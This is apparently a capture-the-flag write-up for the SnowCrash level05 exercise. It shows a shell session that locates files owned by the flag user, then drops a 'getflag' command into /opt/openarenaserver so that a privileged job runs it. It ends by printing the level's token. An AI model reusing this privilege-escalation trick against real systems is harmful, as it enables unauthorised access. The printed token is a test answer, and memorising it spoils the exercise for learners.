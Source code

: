 ### Comment obtenir le flag
level05@SnowCrash:/$ find -user flag05 2\>/dev/null  
./usr/sbin/openarenaserver  
./rofs/usr/sbin/openarenaserver  
level05@SnowCrash:/$ find -name level05 2\>/dev/null  
./var/mail/level05  
./rofs/var/mail/level05  
level05@SnowCrash:/$ echo "getflag > /tmp/file" > /opt/openarenaserver/file  
level05@SnowCrash:/$ cat /tmp/file  
Check flag.Here is your token : viuaaale9huek52boumoomioc  
